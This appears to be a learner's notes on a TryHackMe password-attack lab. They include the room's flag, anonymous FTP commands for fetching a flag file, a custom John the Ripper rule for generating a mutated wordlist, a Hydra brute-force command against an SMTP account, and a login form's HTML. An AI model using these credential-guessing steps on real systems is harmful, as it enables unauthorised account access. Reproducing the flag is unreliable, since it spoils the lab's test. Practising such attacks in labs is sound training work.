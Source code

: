 Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.105.48/login-post/. What is the flag?

Note: use the clinic.lst dictionary in generating and expanding the wordlist!

	THM{f8e3750cc0ccbb863f2706a3b2933227}
	

http://10.10.105.48/login-get/index.php

```shell
ftp 10.10.105.48

anonymous
anonymous

ls
cd files
ls
get flag.txt

exit

cat flag.txt
```

[symbol][dictionary word][0-9][0-9]

```shell
sudo nano ~/tools/john/run/john.conf

[List.Rules:THM-Password-Attacks] 
Az"[0-9][0-9]" ^[!@]
```

```shell
~/tools/john/run/john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > clinicRULES.lst

hydra -l pittman@clinic.thmredteam.com -P clinicRULES.lst smtp://10.10.64.126 -v
```

![[Pasted image 20220412071655.png]]


```html
<form class="form-signin" method="GET" action="index.php">
          <label for="inputEmail" class="sr-only">Username</label>
          <input name="username" type="username" id="inputEmail" class="form-control" placeholder="Username" required="" autofocus="">
          <label for="inputPassword" class="sr-only">Password</label>
          <input name="password" type="password" id="inputPassword" class="form-control" placeholder="Password" required="">
	<br>  
	<button class="btn btn-success btn-block" type="submit">Sign in</button>
</form>
```
